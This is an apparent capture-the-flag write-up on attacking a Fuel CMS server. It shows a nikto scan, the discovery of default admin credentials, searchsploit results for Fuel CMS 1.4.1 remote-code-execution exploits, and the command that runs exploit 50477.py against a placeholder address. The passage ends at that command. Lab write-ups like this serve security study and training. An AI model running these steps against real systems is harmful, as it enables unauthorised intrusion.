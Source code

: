 ### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
+ Entry '/fuel/' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

Simply reading the main `/` page of the website, at the bottom, we see that this "Fuel CMS" isn't fully set up, so it **includes the default admin credentials to log in**. From the `/robots.txt`, it looks like the `/fuel/` folder is where the app lives - so we can go there to log in, as admin!

It's basically an empty installation with no users and no content. Where to begin, to get a bash prompt?

### Option 1: `searchsploit`

We can run:

```bash
searchsploit "fuel cms"
```

And find some candidates:

```python
------------------------------------------------------------------- -------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------- -------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                        | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                        | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                        | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)       | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)              | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)  | php/webapps/48778.txt
------------------------------------------------------------------- -------------------------
Shellcodes: No Results
```

*Also see: [searchsploit.log](./searchsploit.log)*

In my case, I chose the `50477.py` file (these are located in `/usr/share/exploitdb/exploits/`). To run this, I copied this Python script to my [local folder](50477.py), then run:

```bash
python3 ./50477.py -u http://x.x.x.x
```
